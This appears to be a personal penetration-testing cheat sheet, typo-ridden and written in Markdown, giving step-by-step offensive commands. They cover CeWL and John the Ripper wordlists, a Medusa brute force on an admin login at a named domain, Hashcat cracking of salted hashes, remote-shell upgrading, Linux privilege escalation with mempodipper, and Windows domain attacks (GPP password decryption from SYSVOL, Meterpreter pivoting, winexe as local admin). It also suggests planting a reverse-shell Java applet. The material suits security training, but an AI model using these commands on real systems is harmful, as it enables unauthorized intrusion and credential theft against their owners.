 ## UTILITIES
### dirbuster: brute-force website directories.
- find a login page
- generate word via `cwel`  
 ```cewl www.targetdomain.com -m 6 -w /root/target-dmoain-cewl.txt```
- use `john the ripper` to create mangled passwords list  
``` john --wordlist=/root/target-dmoain-cewl.txt --rules --stdout > mutated.txt ```
- pass the new password file to `medusa` for HTTP basci-auth brute force attach  
```  medusa -h fiprealty.com -u admin -P passwords.txt -M http -n 81 -m DIR:/admin -T 30  ```

### hash-identifier
Locate a password hash, and use `hash-identifier` to reveal the source/type.
> won't always work
- if the hash originates from a known app, you can investigate the app's source code to find how it was generated.
The source code might reveal that the hash was generated by `sha1` + 10 random digits...

### oclHashcat-plus
salt + hashed password cracker
- generate a passwords file
- make sure the 'split' the `hash:salt`, so the proggram can identify it
```
#salt of 10 digits
kjhgldskjhgbkjfgbhfdgbsdfg:yu34gy59p1
khgsjdgk865kn9gjrkjtyo9ujg:y689rkjhty
```
- use your `giant passwords list` (actual hashes:slat list) againt the new (wish to hack) list.
```
./hashcat64.bin -m 500 hash-and-salted-passwords.txt my-big-hashes-salted-ditionary.dict
```
- for more information: 
 - https://uwnthesis.wordpress.com/2013/08/07/kali-how-to-crack-passwords-using-hashcat/
 - https://uwnthesis.files.wordpress.com/2013/08/hashtypes.png?w=497&h=333

## WORDLISTS
- /usr/share/dirbuster/wordlists/directory-list....

## SHELL
few commands to allow us better control of our new remote shell.
```
# execute them in the following order (on every new shell)
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=linux
```

## GATHER INFORMATION
```
cat /etc/issue
uname -a
```
- locate `.htaccess` or any other related files that might indicate on another/internal/hidden network.
- locate `apache2` logs, they mightreveal more information about the webserver. a usage of java might be another way to exploit other users/services. (leading to client-side attack) we can add/alter the app code to push our maliciouse java applet with a reverse-shell payload.

## PRIVELEGDA ESCALATION
### LINUX
- `mempodipper`

### WINDOWS
- domain controller
 - enumerate the domain controller information
 - map the SYSVOL share to our client `net use z:\\dc01\SYSVOL`
 - search the folder for files `dir /s grups.xml` ...
 - find password/s in the file, and use `gpp-decrypt` to decrypt it
 - one the password is decrypted, we'll use `winexe` to execute remote commands as the local admin.
  - within our meterpreter session...
   - using `port-forwarding` will pass our `winexe` commands from our kali machine to the remote machine.
   - route add `destination-network class` 255.255.255.0 1
   - `route add 10.11.1.0 255.255.255.0 1`
   - `portfw add -l 445 -p 445 -r 10.7.0.22`
   - `portfw delete -l 445 -p 445 -r 10.7.0.22`
  - within our kali box
   - the following command is routed via our kali machine
   - `winexe -U username%password //127.0.0.1 "cmd"`



